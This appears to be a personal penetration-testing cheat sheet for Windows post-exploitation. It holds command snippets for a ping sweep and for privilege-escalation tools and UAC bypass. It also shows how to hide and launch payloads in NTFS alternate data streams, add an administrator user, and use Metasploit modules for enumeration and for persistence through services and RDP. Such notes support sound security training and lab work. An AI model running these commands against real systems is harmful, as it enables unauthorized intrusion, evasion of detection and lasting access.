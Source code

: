 
# Cmd ping sweep (host discovery)

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.86.174.%i > nul && echo 10.86.74.%i is up.
```

# Privesc

## Tools
[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) #Windows_priv_esc
[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) #Windows_priv_esc
[Metasploit local priv modules](Metasploit)  #Windows_priv_esc
[MimiKatz](Mimikatz) #password_dump
 
## By passing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the windows target system


[UACME](https://github.com/hfiref0x/UACME) 

- UACme tool allows attackers to execute malicious payloads on Windows target with administrative/elevated privs by abusing the inbuilt Windows AuteElevate tool


## Token Impersonation

[Token Impersonation](Token_Impersonation)   

[Sweet potato](https://github.com/CCob/SweetPotato)


## Unattended Windows Setup 

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems 
It's Typically done by **Unattended Windows Setup** which is used to automate the mass installation/deployment of Windows on systems
This tool utilizes configuration files that contain specific configurations and user account credentials, specially the Administrator account's password


- The Unattended Windows Setup utility will typically save files inside:
```
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
```

## Powersploit 

[Powersploit (Powerup)](https://github.com/PowerShellMafia/PowerSploit)


## Pass the hash

#passhash 

# Evasion 
## ADS (Alternate Data Streams)
**Data stream**: The content of the file eg. what's inside a text file is the data stream
**Metadata**: Information about the file eg. when file was created and by who etc.

- Alternate Data Streams (ADS) is an NTFS (New technology File System) file attribute and was designed to provide compatibility with the MacOS HFS (Hierarchical File System).
- Any file created on an NTFS formatted drive will have twi different forks/streams:
	- Data stream - Default stream that contains the data of the file
	- Resource stream - Typically contains metadata of the file
- Attackers can use ADS to hide malicious code or executables in legitimate files to evade detection 
- This can be done by storing malicious code or executables inside metadata of legitimate file

### Example

```powershell

notepad file.txt:hiddenfile # Creats a txt file and inside of a second file 

type PAYLOAD.exe > normalfile.txt:PAYLOAD.exe # hiding .exe file inside txt file

start normalfile.txt:PAYLOAD.exe # executing file inside normalfile.txt
OR
# Create link to the hidden file
mklink wupdate.exe PATH_OF_THE_FILE:PAYLOAD.exe
wupdate.exe # Will start PAYLOAD.exe




```

# System useful commands
## Powershell
```powershell

whoami /all
whoami /priv#  to check my user priv 
icacls check priv for files
- [enviroment]::Is64Bit [ARGUMENT] 

OperatingSystem # to check if the OS running 64bit
Process # to check if the processes running 64 bit
schtasks#  check running tasks cmd 

systeminfo

New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose # create user inside of a domain
```
## CMD


```powershell

whoami /priv # user privs
net user # info about user
net localgroup  # check my user groups
net localgroup administrators # or anygroup check for users in group
net user USER PASSWORD # changet user USER password to PASSWORD
net user htb abc123! /add # add the user htb with the password abc123!
net localgroup administrators htb /add # add user htb to administrators group



#services
sc stop SERVICE

sc query SERVICE to check service

sc start SERVICE to start 


# enable rdp

powershell -command "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop' "

```

### Credentials user impersonation

If you have **valid credentials of any other user**, you can **create** a **new logon session** with those credentials :

```
runas /user:domain\username cmd.exe
```












# Metasploit

## PRIV ESC 
```rb

# Exploit Suggester 
https://github.com/AonCyberLabs/Windows-Exploit-Suggester


# On the target

systeminfo
# Copy output into a file on attacker machine

./windows-exploit-suggester.py --update # Download database 

./windows-exploit-suggester.py --database DATABASEFILE.xls --systeminfo SYSTEMINFOFILE.txt

```

## Post Exploitation
```ruby

use post/windows/gather/win_privs # check user privs 
OR 
getprivs # on Meterpreter

use post/windows/gather/enum_logged_on_users # check logged in users history

use post/windows/gather/checkvm # check vm

use post/windows/gather/enum_applications # enum apps on target
use post/windows/gather/enum_av_excluded # enum for paths excluded by av
use post/windows/gather/enum_computers # enum connected computers in same LAN
use post/windows/gather/enum_shares # enum shares 

# UAC bypass

use exploit/windows/local/bypassuac_injection

```

# Maintain access 

[MimiKatz](Mimikatz) 



## Metasploit
- Metasploit uploads a exe payload and add the exactable to the system services and when the system gets booted if we have only listener on we will get a reverse shell and maintain access on the target  or enabling RDP etc.
```rb

use exploit/windows/local/persistence_service # adding payload to the system services to be executed when system reboots

# Meterpreter

run getgui -e -u ignite -p 123 # Enable RDP and add user of the name ignite and password 123
run getui -e # just enabble RDP

# On metasploit
use  post/windows/manage/enable_rdp  # enable RDP on target

set username pavan

set password 123

set session 1
---

```